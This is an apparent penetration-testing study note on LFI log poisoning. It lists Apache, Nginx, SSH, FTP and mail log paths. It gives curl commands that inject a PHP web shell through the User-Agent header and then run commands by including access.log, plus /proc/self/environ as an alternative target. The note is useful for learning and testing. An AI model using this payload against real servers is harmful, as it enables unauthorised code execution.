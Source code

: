 
Both `Apache` and `Nginx` maintain various log files, such as `access.log` and `error.log`. The `access.log` file contains various information about all requests made to the server, including each request's `User-Agent` header. As we can control the `User-Agent` header in our requests, we can use it to poison the server logs as we did above.

The path taken in this not can also be applied to ssh,ftp,mail
	E.g
		Send malicious mail document with php and use LFI to execute on the saved mail file

Log File List
	/var/log/apache2/error.log
	/var/log/apache2/access.log
	/var/log/sshd.log
	/var/log/mail
	/var/log/vsftpd.log

Log File Paths(Might have different paths use this [LFI FUZZ](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI))
	Default
		Apache
			 `/var/log/apache2/` on Linux and in `C:\xampp\apache\logs\` on Windows
		Nginx
			`/var/log/nginx/` on Linux and in `C:\nginx\log\` on Windows

Testing for log file include(Look for parameters we control)
```http
http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log
```

(Control the User-Agent with burp suite or curl)
```shell
curl -s --user-agent '<?php system($_GET["cmd"]); ?>' 'http://<SERVER_IP>:<PORT>/index.php'
```

Execute on user-agent web shell
```shell
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=/var/log/apache2/access.log&cmd=id"
```
**Tip:** The `User-Agent` header is also shown on process files under the Linux `/proc/` directory. So, we can try including the `/proc/self/environ` or `/proc/self/fd/N` files (where N is a PID usually between 0-50), and we may be able to perform the same attack on these files. This may become handy in case we did not have read access over the server logs, however, these files may only be readable by privileged users as well.




